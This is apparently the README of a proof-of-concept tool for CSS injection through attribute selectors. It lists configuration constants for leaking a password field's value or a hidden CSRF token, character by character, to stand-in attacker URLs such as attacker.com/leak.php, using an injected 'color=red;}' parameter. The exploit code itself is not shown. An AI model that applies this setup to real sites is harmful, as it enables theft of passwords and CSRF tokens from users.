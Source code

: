 # PoC - CSS Injection : Attribute Selectors 

__Read this in other languages:__ [English](README.md), [Français](README.fr.md)

## Description

PoC to exploit a CSS injection using attribute selectors to retrieve the value of an attribute of an HTML element.

## Prerequisites

- The vulnerable site must be able to be iframed, see `X-Frame-Options` and `frame-ancestors` HTTP headers.
- There are some limitations when the value to be retrieved starts with a number. The target value must then be surrounded by single or double quotes and exploitation may not be possible if these characters are filtered by the application.

## Configuration

Before using the PoC, adapt the following values:

```
/* ==== CONFIG ==== */
// Full URL of the vulnerable application
const RURL = "http://vulnerable.com/targets/password.php?color=red;}";  

// URL of the attacker's machine to retrieve the already known characters
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";

// URL of the attacker's machine to indicate a new identified character
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";

// Name of the targeted HTML element
const HTML_ELEMENT_NAME = "input";

// Name of the targeted HTML attribute
const HTML_ATTRIBUTE_NAME = "name";

// NAME value of the targeted HTML attribute
const HTML_ATTRIBUTE_VALUE = "password";

// True if the targeted field is of type "hidden" (use of CSS combinators ~*)
const isHiddenTypeElement = false;

// When the characters "'" and """ are filtered by the application it's not possible to retrieve a value starting with a number
const isQuoteFiltered = true;
```

## Usage

### Retrieving a value from a password field

```javascript
const RURL = "http://vulnerable.com/targets/password.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "password";
const isHiddenTypeElement = false;
const isQuoteFiltered = true;
```

### Retrieving a value from a hidden field

```javascript
const RURL = "http://vulnerable.com/targets/hidden.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "csrf-token";
const isHiddenTypeElement = true;
const isQuoteFiltered = true;
```

## Demo

### Retrieving a value from a password field



### Retrieving a value from a hidden field


